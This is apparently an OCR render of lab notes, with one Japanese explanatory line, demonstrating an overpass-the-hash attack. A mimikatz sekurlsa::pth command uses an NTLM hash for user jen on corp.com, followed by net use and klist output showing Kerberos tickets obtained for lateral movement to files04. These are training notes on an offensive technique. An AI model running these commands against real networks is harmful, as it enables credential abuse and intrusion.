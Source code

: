 
```
mimikatz # sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell 
user    : jen
domain  : corp.com
program : powershell
impers. : no
NTLM    : 369def79d8372408bf6e93364cc93075
  |  PID  8716
  |  TID  8348
  |  LSA Process is now R/W
  |  LUID 0 ; 16534348 (00000000:00fc4b4c)
  \_ msv1_0   - data copy @ 000001F3D5C69330 : OK !
  \_ kerberos - data copy @ 000001F3D5D366C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000001F3D5C63B68 (32) -> null


成功すると以下のコマンドで横展開した場所にアクセスすることができることがわかる
PS C:\Windows\system32> net use \\files04
The command completed successfully.

PS C:\Windows\system32> klist

Current LogonId is 0:0x17239e

Cached Tickets: (2)

#0>     Client: jen @ CORP.COM
        Server: krbtgt/CORP.COM @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: DC1.corp.com

#1>     Client: jen @ CORP.COM
        Server: cifs/files04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC1.corp.com
```

